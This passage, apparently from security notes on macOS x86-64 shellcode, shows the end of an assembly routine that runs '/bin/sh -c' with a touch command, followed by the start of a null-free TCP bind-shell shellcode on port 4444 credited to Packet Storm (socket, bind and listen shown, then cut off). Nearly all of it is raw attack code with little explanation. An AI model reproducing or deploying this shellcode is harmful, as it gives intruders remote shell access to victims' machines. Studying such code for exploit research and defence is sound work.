 ```
_exit:
    xor rdi, rdi                  ; Exit status code 0
    push    1                     ; put 1 on the stack (exit syscall)
    pop     rax                   ; pop it to RAX
    bts     rax, 25               ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
    syscall

section .data
sh_path:        db "/bin/sh", 0
sh_c_option:    db "-c", 0
touch_command:  db "touch /tmp/lalala", 0
```
```
#### Bind shell

Bind shell from [[https://packetstormsecurity.com/files/151731/macOS-TCP-4444-Bind-Shell-Null-Free-Shellcode.html|https://packetstormsecurity.com/files/151731/macOS-TCP-4444-Bind-Shell-Null-Free-Shellcode.html]] in **port 4444**

```armasm
section .text
global _main
_main:
    ; socket(AF_INET4, SOCK_STREAM, IPPROTO_IP)
    xor  rdi, rdi
    mul  rdi
    mov  dil, 0x2
    xor  rsi, rsi
    mov  sil, 0x1
    mov  al, 0x2
    ror  rax, 0x28
    mov  r8, rax
    mov  al, 0x61
    syscall

    ; struct sockaddr_in {
    ;         __uint8_t       sin_len;
    ;         sa_family_t     sin_family;
    ;         in_port_t       sin_port;
    ;         struct  in_addr sin_addr;
    ;         char            sin_zero[8];
    ; };
    mov  rsi, 0xffffffffa3eefdf0
    neg  rsi
    push rsi
    push rsp
    pop  rsi

    ; bind(host_sockid, &sockaddr, 16)
    mov  rdi, rax
    xor  dl, 0x10
    mov  rax, r8
    mov  al, 0x68
    syscall

    ; listen(host_sockid, 2)
    xor  rsi, rsi
    mov  sil, 0x2
    mov  rax, r8
    mov  al, 0x6a
    syscall

```